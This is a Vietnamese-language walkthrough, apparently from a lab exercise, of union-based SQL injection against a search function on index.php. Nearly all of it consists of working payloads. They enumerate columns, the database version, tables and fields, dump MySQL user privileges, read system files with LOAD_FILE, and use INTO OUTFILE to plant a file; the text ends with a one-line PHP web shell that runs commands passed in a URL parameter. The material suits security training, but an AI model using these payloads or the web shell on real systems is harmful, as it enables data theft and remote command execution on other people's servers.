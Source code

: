 Người thực hiện: Lê Trần Văn Chương.
Ngày: 05/04/2022.
Mục lục:
- Khai thác SQLi Union Based chức năng search ở trang index.php
- LOAD_FILE()
## Khai thác SQLi Union Based chức năng search ở trang index.php
1. Kiểm tra xem có tổng cộng bao nhiêu cột dữ liệu trong bảng của DB.
`' ORDER BY 14 #` 
	
2. Vị trí của từng cột dữ liệu trong bảng hiện ở ngoài client (1, 12, 2, 10, 11)
`' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 #`
![Hinh 1.](~/../img/1.png)

3. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (1)
`' UNION SELECT 'a',NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #` 
![Hinh 2.](~/../img/2.png)

4. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (2)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
![Hinh 3.](~/../img/3.png)

5. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (10)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a',NULL,NULL,13,14 #` 
![Hinh 4.](~/../img/4.png)

6. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (11)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a',NULL,13,14 #` 
![Hinh 5.](~/../img/5.png)

7. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (12)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a','a',13,14 #` 
![Hinh 6.](~/../img/6.png)

8. Kiểm tra thử những cột vừa rồi kiểu dữ liệu có phải là string hay không
`' UNION SELECT 'asd','asd',3,4,5,6,7,8,9,'asd','asd','asd',13,14 #` 
=> Các cột hiện trên client đều có kiểu dữ liệu là string
![Hinh 7.](~/../img/7.png)

9. Kiểm tra DB hiện tại
`' UNION SELECT database(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 
![Hinh 8.](~/../img/8.png)

10.  Version của DB
`' UNION SELECT version(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 
![Hinh 9.](~/../img/9.png)

11. Lấy tất cả các table có trong DB
`' UNION SELECT  table_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.tables #`
(Một số bảng đáng chú ý: `admin_func, payload, user, users, account, accounts`)
![Hinh 10.](~/../img/10.png)

12.  Lấy tất cả các trường trong bảng admin_func
`' UNION SELECT  column_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.columns WHERE table_name='admin_func' #`
=> từ đây có thể khai thác dữ liệu như mình muốn
![Hinh 11.](~/../img/11.png)

13.  Ví dụ: tôi khai thác cột `name` và `extension` của bảng `payload`.
`' UNION SELECT  name,extension,3,4,5,6,7,8,9,10,11,12,13,14 FROM payload  #`
![Hinh 12.](~/../img/12.png)

## LOAD_FILE()
1. Đầu tiên, xem quyền của user bằng hàm `group_concat(table_name)`
`' UNION SELECT (SELECT group_concat(user,file_priv) FROM mysql.user),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
![Hinh 13.](~/../img/13.png)

2. Kiểm tra file `tmp` đang ở đâu
`' UNION SELECT @@slave_load_tmpdir,NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #` 
=> `C:\xampp\tmp`
![Hinh 14.](~/../img/14.png)

3. File hosts
`' UNION SELECT load_file("C:/Windows/System32/Drivers/etc/hosts"),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
![Hinh 15.](~/../img/16.png)

## OUTFILE()

`' UNION SELECT NULL,NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 INTO OUTFILE "C:/Users/MTGR/Desktop/test.php" #`
![Hinh 16.](~/../img/17.png)

---php
<pre>
<?php
	system($_GET['cmd'])
?>
</pre>
---